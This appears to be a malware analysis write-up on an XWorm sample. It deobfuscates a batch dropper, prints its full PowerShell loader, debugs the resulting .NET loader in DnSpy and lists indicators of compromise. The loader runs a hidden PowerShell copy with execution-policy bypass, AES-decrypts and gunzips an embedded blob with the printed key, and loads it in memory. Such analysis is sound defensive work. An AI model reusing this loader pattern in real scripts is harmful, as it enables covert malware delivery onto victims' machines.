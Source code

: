 ## XWorm - Batch Deobfuscation - .NET Loader

This sample starts off with some batch & PowerShell deobfuscation, revealing a .NET loader which we can debug using DnSpy and module breakpoints to reveal the payload.

SHA 256: e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f

## Initial Batch Script

This sample starts with an obfuscated batch script which looks like the following:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/15a2ff27-e269-40d7-96fc-586d9093245b)

From the fourth line onward we can see that many set commands are taking place, we also see a lot of commented-out strings which don't seem to make a lot of sense right now, denoted by the ::

Towards the end of the script, it appears that those variables are being called and executed:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/56b8f863-19b1-42db-951a-7bfcd968584e)

A quick way to make sense of this script is by commenting out the lines that clear the terminal and exit, and adding "echo" commands before the variables are called.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/be36953d-e183-4e48-9ff8-f861c071a512)

Now if we execute this new script, we get the following:

``` powershell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe"
cd "C:\Users\mzheader\Desktop\"
"e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe" -noprofile -windowstyle hidden -ep bypass -command $_CASH_JPyoO = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')
('C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat').Split([Environment]::NewLine);foreach ($_CASH_ealtD in $_CASH_JPyoO) { if ($_CASH_ealtD.StartsWith(':: @')) {  $_CASH_tFaoL = $_CASH_ealtD.Substring(4); break; }; };$_CASH_tFaoL =
[System.Text.RegularExpressions.Regex]::Replace($_CASH_tFaoL, '_CASH_', '');$_CASH_epUJg = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($_CASH_tFaoL);$_CASH_pFavC = New-Object System.Security.Cryptography.AesManaged;$_CASH_pFavC.Mode = [System.Security.Cryptography.CipherMode]::CBC;$_CASH_pFavC.Padding =
[System.Security.Cryptography.PaddingMode]::PKCS7;$_CASH_pFavC.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('GZ+NDDfWJdUL46CgERFNsma8kH1a1NyOqIvOPvKsrWA=');$_CASH_pFavC.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('5IgM8xAuhLV8mV1KzrCEvg==');$_CASH_traoF =
$_CASH_pFavC.CreateDecryptor();$_CASH_epUJg = $_CASH_traoF.TransformFinalBlock($_CASH_epUJg, 0, $_CASH_epUJg.Length);$_CASH_traoF.Dispose();$_CASH_pFavC.Dispose();$_CASH_SjOoQ = New-Object System.IO.MemoryStream(, $_CASH_epUJg);$_CASH_DLltN = New-Object System.IO.MemoryStream;$_CASH_VzeZp = New-Object
System.IO.Compression.GZipStream($_CASH_SjOoQ, [IO.Compression.CompressionMode]::Decompress);$_CASH_VzeZp.CopyTo($_CASH_DLltN);$_CASH_VzeZp.Dispose();$_CASH_SjOoQ.Dispose();$_CASH_DLltN.Dispose();$_CASH_epUJg = $_CASH_DLltN.ToArray();$_CASH_JzGOp = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')
($_CASH_epUJg);$_CASH_PUHAS = $_CASH_JzGOp.EntryPoint;$_CASH_PUHAS.Invoke($null, (, [string[]] ('')))
```
We can make this a bit easier to read by replacing all semi-colons with new lines:

```powershell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe"
cd "C:\Users\mzheader\Desktop\"
"e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe" -noprofile -windowstyle hidden -ep bypass -command $_CASH_JPyoO = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat').Split([Environment]::NewLine)
foreach ($_CASH_ealtD in $_CASH_JPyoO) { if ($_CASH_ealtD.StartsWith(':: @')) {  $_CASH_tFaoL = $_CASH_ealtD.Substring(4)
 break
 }
 }
$_CASH_tFaoL = [System.Text.RegularExpressions.Regex]::Replace($_CASH_tFaoL, '_CASH_', '')
$_CASH_epUJg = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($_CASH_tFaoL)
$_CASH_pFavC = New-Object System.Security.Cryptography.AesManaged
$_CASH_pFavC.Mode = [System.Security.Cryptography.CipherMode]::CBC
$_CASH_pFavC.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$_CASH_pFavC.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('GZ+NDDfWJdUL46CgERFNsma8kH1a1NyOqIvOPvKsrWA=')
$_CASH_pFavC.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('5IgM8xAuhLV8mV1KzrCEvg==')
$_CASH_traoF = $_CASH_pFavC.CreateDecryptor()
$_CASH_epUJg = $_CASH_traoF.TransformFinalBlock($_CASH_epUJg, 0, $_CASH_epUJg.Length)
$_CASH_traoF.Dispose()
$_CASH_pFavC.Dispose()
$_CASH_SjOoQ = New-Object System.IO.MemoryStream(, $_CASH_epUJg)
$_CASH_DLltN = New-Object System.IO.MemoryStream
$_CASH_VzeZp = New-Object System.IO.Compression.GZipStream($_CASH_SjOoQ, [IO.Compression.CompressionMode]::Decompress)
$_CASH_VzeZp.CopyTo($_CASH_DLltN)
$_CASH_VzeZp.Dispose()
$_CASH_SjOoQ.Dispose()
$_CASH_DLltN.Dispose()
$_CASH_epUJg = $_CASH_DLltN.ToArray()
$_CASH_JzGOp = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($_CASH_epUJg)
$_CASH_PUHAS = $_CASH_JzGOp.EntryPoint
$_CASH_PUHAS.Invoke($null, (, [string[]] ('')))
```

**Command Line Breakdown:**
```powershell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe"
cd "C:\Users\mzheader\Desktop\"
```
It appears that the script is firstly copying PowerShell and moving it to the same directory & filename as the executed script, changing directory to that directory, and executing the newly copied binary of PowerShell.
```powershell
"e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe" -noprofile -windowstyle hidden -ep bypass -command $_CASH_JPyoO = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')
('C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat').Split([Environment]::NewLine)
```
A command is executed, with the reversed string of "ReadAllText" and it reads the initial batch script.
```powershell
foreach ($_CASH_ealtD in $_CASH_JPyoO) { if ($_CASH_ealtD.StartsWith(':: @')) {  $_CASH_tFaoL = $_CASH_ealtD.Substring(4)
```
From the initial script, it is looking for instances that start with ":: @" and takes everything from the 4th substring onwards, ie, all the content after the "::@"
The result is being saved as variable name "_CASH_tFaoL"
```powershell
$_CASH_tFaoL = [System.Text.RegularExpressions.Regex]::Replace($_CASH_tFaoL, '_CASH_', '')
```
The contents of _CASH_tFaoL is read, and all instances of "_CASH_" are replaced with nothing.
```powershell
$_CASH_epUJg = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($_CASH_tFaoL)
```
The string is decoded from Base64.
```powershell
$_CASH_pFavC = New-Object System.Security.Cryptography.AesManaged
$_CASH_pFavC.Mode = [System.Security.Cryptography.CipherMode]::CBC
$_CASH_pFavC.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$_CASH_pFavC.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('GZ+NDDfWJdUL46CgERFNsma8kH1a1NyOqIvOPvKsrWA=')
$_CASH_pFavC.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('5IgM8xAuhLV8mV1KzrCEvg==')
```
The decoded text is being AES-decrypted with Key "GZ+NDDfWJdUL46CgERFNsma8kH1a1NyOqIvOPvKsrWA=" and IV "5IgM8xAuhLV8mV1KzrCEvg==".
```powershell
$_CASH_SjOoQ = New-Object System.IO.MemoryStream(, $_CASH_epUJg)
$_CASH_DLltN = New-Object System.IO.MemoryStream
$_CASH_VzeZp = New-Object System.IO.Compression.GZipStream($_CASH_SjOoQ, [IO.Compression.CompressionMode]::Decompress)
```
The decrypted text is being decompressed with gunzip.
```powershell
$_CASH_JzGOp = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($_CASH_epUJg)
$_CASH_PUHAS = $_CASH_JzGOp.EntryPoint
$_CASH_PUHAS.Invoke($null, (, [string[]] ('')))
```
The contents of which are being loaded/executed in memory.

Now that we know what the script is doing, we'll search for instances of "::@" in the initial script, perform the operations and we should be left with some form of executable code.

We see our string starting with "::@", which is a huge blob of text.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d8d60598-7491-4893-8892-2d4d563c8206)

We'll take this blob and throw it in CyberChef with the following operators to decode and decrypt the content as the script does.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d45309f5-a055-4251-b051-96766c3050b3)

We are left with an executable file.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/0b251516-6528-43ff-b54a-ced8d90e169f)

## .NET Analysis

Detect It Easy tells us that this is a .NET binary, and it has a fairly interesting entropy level, around mid-way but it remains consistent.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c6ef6c1c-b1dd-4fdc-85d8-f9a6ed669266)

Loading the executable into DnSpy we can see it is heavily obfuscated, but there are references to LoadPE. This, and the level of entropy suggests it's likely a loader and not our final payload.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/23ac0071-6c6b-4f02-b400-45a40b3ab74e)

Knowing this, we can set a module breakpoint and try to extract anything interesting that is being loaded in memory.

Head to Module Breakpoints and set a breakpoint for * (anything)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/31865716-bb47-45d9-aabb-332c2cc0f323)

Now we begin to debug the executable, taking note of all loaded modules.

As we step through, there is a very interesting module being loaded which we should interrogate further.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b4c94a3e-5255-4d35-b37c-b36ba64ba74e)

We can right-click "Load Module" to decompile it in our current DnSpy session.

This module doesn't appear to be obfuscated and we can instantly see where the Settings are stored.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/9e5f87ea-7e84-4d94-8ad4-16fef0a92b75)

**Settings:**

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/9b67b4f1-e3a9-4684-9cc1-009723118aff)


IOCs:

IPv4: 65.1.224[.]214
SHA 256: E5DAC6F6D2AB4C479C5C3E91064F335DE141C8399BD93F8267E13F134C578C0F
SHA 256: EC7890D7D688DAC4EF8EF6B6E2A832280EA47BF404B851B97CDF7C709C389E65
SHA 256: CBB7FC940A1E9B3DADB1EC625554325B5DD9A95E34A05A0EC6F7206D2128DAB9








